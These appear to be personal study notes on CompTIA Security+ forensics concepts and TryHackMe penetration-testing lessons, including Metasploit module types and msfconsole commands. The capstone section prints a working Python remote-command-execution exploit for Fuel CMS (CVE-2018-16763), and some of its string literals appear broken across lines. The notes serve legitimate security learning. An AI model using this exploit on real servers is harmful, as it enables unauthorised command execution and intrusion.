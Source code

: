 # ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester

* **author**:: Nathan Acks  
* **date**:: 2022-04-13

## ITPro.TV: CompTIA Security+ (SY0-601)

### Digital Forensics Concepts

Order of volatility:

* CPU cache & registers (good luck!)
* Routing tables, process tables, ARP cache, kernel stats
* (Non-Kernel) RAM
* Swap, /tmp, etc.
* Storage, VM snapshots
* Archival data, backups, logs, print-outs

Preservation and documentation notes:

* Timestamp everything
* Note timezone differences
* Written reports and logs (also use these to establish the chain of custody)
* Witness testimony
* Use file hashes

Chain of custody is often represented as a simple paper log/form.

Tools of the trade:

* FTK Imager
* WinHex
* Autopsy
* EnCase Forensic
* `dd`

## TryHackMe: Jr. Penetration Tester

### Vulnerability Capstone

I couldn't get any of the exploits from Exploit DB to work for me, so I wound up doing a web search that landed me on a write-up for this room in GitHub; the provided exploit code is a little rough, but can be cleaned up to produce nice output without too much work:

```python
#!/usr/bin/python3

# Derived from https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763/blob/main/rce.py

import argparse
import requests
from sys import exit
from bs4 import BeautifulSoup
from socket import error

delimeter1 = '<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">'
delimeter2 = '</div>'

def exploit():
	while True:
		try:
			payload = input("
[+] OS Command: ")
			response = requests.get(f"{args.URL}/fuel/pages/select/?filter='%2Bpi(%24a%3D('system'))%2B%24a('{payload}')%2B'")
			htmlText = str(BeautifulSoup(response.text,'html.parser'))
			array1 = htmlText.split(delimeter1)
			array2 = array1[1].split(delimeter2)
			print('
' + array2[-1].replace('

',''))

		except error:
			exit('
[-] Could Not Connect To Server')

if __name__ == '__main__':

	mainArguments = argparse.ArgumentParser()
	mainArguments.add_argument('URL',help='Target Website Hosting Vulnerable CMS',type=str)
	args = mainArguments.parse_args()

	try:
		exploit()
	except KeyboardInterrupt:
		exit('
[!] Quitting')
```

* [THM-Vulnerability_Capstone-CVE-2018-16763](https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763)
* [THM-Vulnerability_Capstone-CVE-2018-16763 / rce.py](https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763/blob/main/rce.py)
* [Python String split() Method](https://www.w3schools.com/python/ref_string_split.asp)
* [Replace all newline characters using python](https://stackoverflow.com/questions/54760850/replace-all-newline-characters-using-python)

### Main Components of Metasploit

Module categories:

* Auxiliary (odds-n-ends)
* Encoders (re-encode exploits to thwart signature-based anti-malware solutions)
* Evasion (attempt to directly evade anti-malware solutions)
* Exploits
* NOPS (no-op code that can be used to pad exploits to a needed size)
* Payloads (what you want to run if the exploit is successful; often, but not always, some kind of shell)
* Post (additional post-exploitation tools)

Payloads, in turn, can be divided into:

* Singles (self-contained; also indicated by the use of an `_` separating "shell" from the rest of the payload name, as in `shell_reverse_tcp`)
* Stagers (small applications that establish a connection back to the attacker to download a larger, more complex payload)
* Stages (payloads designed to be downloaded by a stager; also indicated by the use of a `/` separating "shell" from the rest of the payload name, as in `shell/reverse_tcp`)

### Msfconsole

You can use msfconsole as a shell, but there's no redirect functionality.

Use `history` to display a command history.

All settings are scoped to the current module unless explicitly scoped globally (`set -g`).

The `show` command can be used with any module type to list modules of that type, though Metasploit is a bit inconsistent about whether the type should be plural or not (`show auxiliary` vs. `show exploits`). When used in the context of a module, this usage of `show` will attempt to filter additional modules in a sensible way; for example, in the context of a Windows exploit, only Windows-based payloads will be shown.

The `back` command leaves the context of the current module.

Use `info` to get module information (which is not generally the same as "help", though it often does contain useful informaiton).

We can limit the `search` query to a particular type of module using the `type:` parameter (e.g., `search type:exploit wordpress`).

### Working with Modules

The common `RHOSTS` module option accepts IP addresses, ranges, CIDR networks, and even a file with one target per line (specify as `file:/path/to/file.txt`).

Note that the `PAYLOAD` and `SESSION` parameters are not generally listed by `show options`, but can still be set if desired.

You can reset individual parameters using `unset`, and reset the entire module using `unset all`.

* `set -g` = `setg`
* `unset -g` = `unsetg`
* `run` = `exploit`

Some exploit modules have a `check` option which attempts to determine if a target is vulnerable without actually exploiting it. Alternately, other modules have a paired auxiliary scanner. Many *don't* have a check at all. YMMV!

Meterpreter sessions can be backgrounded using the `background` command, and all sessions can be backgrounded using `CTRL + Z`. List sessions using the `sessions` command, and foreground a session using `session -i #`, where `#` is the session number.
